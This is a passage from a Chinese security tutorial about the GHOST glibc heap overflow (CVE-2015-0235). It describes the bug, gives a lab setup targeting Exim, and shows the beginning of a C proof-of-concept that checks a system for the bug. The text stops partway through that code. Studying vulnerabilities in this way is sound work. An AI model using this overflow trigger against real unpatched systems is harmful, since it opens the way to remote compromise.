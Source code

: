 # 7.1.2 CVE-2015-0235 glibc __nss_hostname_digits_dots 堆溢出漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
  - [Exim expolit](#exim-exploit)
- [参考资料](#参考资料)


[下载文件](../src/exploit/7.1.2_glibc_2015-0235)

## 漏洞描述
glibc 是 GNU 的 C 运行库，几乎所有 Linux 的其他运行库都依赖于它。该漏洞被称为 GHOST，发生的原因是函数 `__nss_hostname_digits_dots()` 存在缓冲区溢出，可以通过 `gethostbyname*()` 系列函数触发，最容易的攻击入口是邮件服务器，攻击者可以实施远程攻击甚至完全控制目标系统。受影响的版本从 glibc-2.2 到 glibc-2.17。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 12.04 | 体系结构：64 位 |
| 调试器 | gdb-peda | 版本号：7.4 |
| 漏洞软件 | glibc | 版本号：2.15 |
| 受影响软件 | Exim4 | 版本号：4.80 |

通过下面的 PoC 可以知道自己的系统是否受到影响：
```c
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
 
#define CANARY "in_the_coal_mine"
 
struct {
  char buffer[1024];
  char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };
 
int main(void) {
  struct hostent resbuf;
  struct hostent *result;
  int herrno;
  int retval;
 
  /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
  size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
  char name[sizeof(temp.buffer)];
  memset(name, '0', len);
  name[len] = '\0';
 
  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
 
  if (strcmp(temp.canary, CANARY) != 0) {
    puts("vulnerable");
    exit(EXIT_SUCCESS);
  }
  if (retval == ERANGE) {
```